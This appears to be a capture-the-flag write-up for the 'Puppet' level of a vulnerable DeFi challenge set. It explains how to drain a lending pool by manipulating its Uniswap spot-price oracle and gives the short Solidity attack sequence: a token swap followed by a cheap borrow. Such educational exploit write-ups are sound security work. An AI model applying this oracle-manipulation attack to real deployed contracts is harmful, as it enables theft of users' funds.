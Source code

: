```solidity
```

### References

* https://eips.ethereum.org/EIPS/eip-721
* https://ethereum.org/en/developers/docs/standards/tokens/erc-721/
* https://docs.openzeppelin.com/contracts/4.x/api/token/erc721
* https://docs.openzeppelin.com/contracts/4.x/api/access#Ownable

## 08 Puppet

To beat this level, we need to comply with

```solidity
// In the challenge written in hardhat we checked that the
// attacker did everything in one single transaction.
// we omit this check in forge.

// player has taken all tokens from the pool
assertEq(token.balanceOf(address(lendingPool)), 0);
assertEq(token.balanceOf(msg.sender), POOL_INITIAL_TOKEN_BALANCE);
```

In forge, save few exceptions, we do the attacks in a single transaction.

### Solution

We need to find a way to borrow cheap the 100_000 tokens, notice that the price used in the loan is computed with

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

By decreasing the amount of ETH and decreasing the amount of DVT in the uniswap exchange, we can lower the oracle price. As we have 1_000 DVTs we can engage in a swap of DVT for ETH with `tokenToEthSwapInput()`. We will then, have the required amount of ETH to be able to borrow the DVT from the pool and beat the level.

```solidity
token.approve(address(uniswapExchange), 1000e18);
uniswapExchange.tokenToEthSwapInput(1000e18, 1, block.timestamp * 2);

lendingPool.borrow
  {value: lendingPool.calculateDepositRequired(100_000e18)}
    (100_000e18, address(this));
```
